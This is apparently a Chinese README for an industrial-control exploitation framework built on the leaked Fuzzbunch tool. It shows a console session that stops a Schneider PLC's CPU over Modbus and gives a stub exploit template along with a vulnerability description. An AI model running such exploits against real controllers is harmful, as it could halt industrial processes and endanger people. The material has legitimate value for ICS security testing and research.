 
##一、	框架介绍

本框架主要使用Python语言开发，通过集成ShadowBroker释放的NSA工具Fuzzbunch攻击框架，开发一款适合工控漏洞利用的框架。由于Fuzzbunch攻击框架仅适用于Python2.6，很多核心的功能都封装成了DLL，通过函数进行调用，不便于后期的移植和使用。但是，Fuzzbunch的命令行使用的确很方便，而且够傻瓜，所以就有集成一个适合工控漏洞利用的框架想法。新框架对主要的接口使用Python重新实现，所以支持Python2.X版本。

肯定会有人问，有牛逼的MSF，搞这个玩竟儿有什么用？主要基于如下几点考虑

* MSF命令行使用不够傻瓜，纯属个人观点，仅供参考。
* 工控的很多私用协议都使用Python开发，有很多优秀的Python框架（如scapy、kitty），集成在MSF很麻烦，有一个Python的框架会方便很多。
* 最主要的一个原因是，从事工控安全以来，本人一直在使用Python，很多脚本都是基于Python开发的，想将手上所有的资源进行整合，提供一个统一的平台，方便。


##二、	框架使用

进入目录，执行如下命令：

    python main.py

界面显示如下：

    D:\isf\isf>python main.py

                                   ???
                             ???????????????
                          ?????           ?????
                       ????                   ????
                     ????                       ????
                    ???                           ???
                   ???             ??              ???
                  ???           ????????            ???
                 ???           ???????????           ???
                 ???          ?????????????          ???
                 ??          ???????????????          ??
                 ??         ?????????????????         ??
                 ??        ??????       ?????         ??
                 ??            ???????????            ??
                 ??            ???????????            ??
                 ??             ?????????             ??
                 ???             ???????             ???
                 ???              ?????              ???
                  ???          ???????????          ???
                   ???      ?????????????????      ???
                    ???   ????????????????????    ???
                      ?????????????????????????????
                       ???????????????????????????
                          ?????????????????????
                             ---ICSMASTER---

    + - - - - - + [ Version 1.1.1                           ] + - - - - - +
    + - - - - - + [ MADE BY ICSMASTER. HTTP://ICSMASTER.COM ] + - - - - - +
    
    [*] Loading Plugins
    [*] Initializing isf v1.1.1
    [*] Adding Global Variables
    [+] Set ResourcesDir =>. c:\isf\Resources
    [+] Set Color =>. True
    [+] Set ShowHiddenParameters =>. False
    [+] Set NetworkTimeout =>. 60
    [+] Set LogDir =>. D:\isf\isf\logs
    [*] Autorun ON
    
    Exploit Autorun List
    ====================
    
      0) apply
      1) touch all
      2) prompt confirm
      3) execute
    
    
    Payload Autorun List
    ====================
    
      0) apply
      1) prompt confirm
      2) execute
    
    
    [+] Set ISFStorage =>. D:\isf\isf\storage
    isf >
    
show命令使用，显示当前所有的插件，如下所示

    isf > show
    
    Plugin Categories
    =================
    
      Category     Active Plugin
      --------     -------------
      Exploit      None
      Payload      None
    
    isf > show Exploit
    
    Plugin Category: Exploit
    ========================
    
      Name                            Version
      ----                            -------
      Schneider_CPU_Command           1.1.0
      Siemens_300_400_CPU_Control     1.1.0

use命令使用，调用相关插件，并根据命令行提示配置参数，如下所示

    isf > use Schneider_CPU_Command

    [!] Entering Plugin Context :: Schneider_CPU_Command
    [*] Applying Global Variables
    
    [*] Applying Session Parameters
    [*] Running Exploit Touches
    
    
    [!] Enter Prompt Mode :: Schneider_CPU_Command
    
    Module: Schneider_CPU_Command
    =============================
    
      Name            Value
      ----            -----
      TargetIp
      TargetPort      502
      Command         stop
    
    [!] plugin variables are valid
    [?] Prompt For Variable Settings? [Yes] :
    
    [*]  TargetIp :: Target IP Address
    
    [?] TargetIp [] : 192.168.1.30
    [+] Set TargetIp => 192.168.1.30
    
    [*]  TargetPort :: Target Port
    
    [?] TargetPort [502] :
    [+] Set TargetPort => 502
    
    [*]  Command :: The control command of cpu [stop/start]
    
    [?] Command [stop] :
    [+] Set Command => stop
    
    
    [!] Preparing to Execute Schneider_CPU_Command
    
    Module: Schneider_CPU_Command
    =============================
    
      Name            Value
      ----            -----
      TargetIp        192.168.1.30
      TargetPort      502
      Command         stop
    
    [?] Execute Plugin? [Yes] :
    [*] Executing Plugin
    logging to file
    [+] Schneider_CPU_Command Succeeded


##三、	EXP编写

编写一个EXP需要包含两个文件，一个参数描述性的文件 *.xml 和 一个漏洞脚本文件 *.py，两个文件的名字需要相同，xml定义输入输出的参数的基本信息，如下所示，EXP需要三个参数，分别是TargetIp、TargetPort、Command。注意：XML文件中 name 字段不能重复。

    <?xml version="1.0"?>
    <t:config id="c72514379eaad943b62f4080a5ae1dc61619f0f3"
              name="Schneider_CPU_Command"
              version="1.1.0"
              configversion="1.1.0.0"
              xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance'
              xmlns:t='tc0'>
    
      <t:inputparameters>    
        <t:parameter name="TargetIp"
                     description="Target IP Address"
                     type="IPv4"/>
        <t:parameter name="TargetPort"
                     description="Target Port"
                     type="TcpPort"
                     default="502"/>
        <t:parameter name="Command"
                     description="The control command of cpu [stop/start]"
                     type="String"
                     default="stop"/>
      </t:inputparameters>
    </t:config>
    
漏洞利用脚本编写方法如下，如果不清楚可以直接拷贝如下模板进行修改

> 1、继承基础类 BaseExploit 
> 2、填写POC基础信息 pocinfo
> 3、注册命令行，向register_options变量增加make_option对象即可，注意参数名称需要与xml文件保持一致
> 4、实现exploit函数
    
    #!/usr/bin/env python
    # coding=utf-8
    from core.exploit import *


    class MyPoc(BaseExploit):
        pocinfo = {
            'ID': 'ICF-2017-000001',
            'Name': '施耐德昆腾140系列PLC CPU控制',
            'Author': 'w3h',
            'Create_Date': '2017-04-09',
            'Description': '''施耐德昆腾140系列PLC认证用户时Session使用是单比特，导致攻击者可以向PLC发送CPU控制指令。''',
    
            'Vendor': VENDOR.SI,
            'Device': ['Schneider Quantum 140'],
            'App': '',
            'Protocol': 'modbus',
            'References': {'CVE': '', 'CNVD': '', 'OSVDB': '', 'CNNVD': ''},
    
            'Risk': RISK.H,  # H/M/L
            'VulType': VULTYPE.REP
        }
    
        register_options = [
            make_option('--TargetIp', action='store', dest='TargetIp',
                        type='string', default=None, help='The target of this poc.'),
            make_option('--TargetPort', action='store', dest='TargetPort',
                        type='int', default=502, help='The port of this poc [default:502].'),
            make_option('--Command', help='The constrol commond of cpu', dest="Command", default="stop"),
        ]
    
        def exploit(self, *args, **kwargs):
            cmd = self.getParam("Command")
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((self.TargetIp, self.TargetPort))
            pass
    
    # POC标准入口函数
    MainEntry(MyPoc, __name__)
    



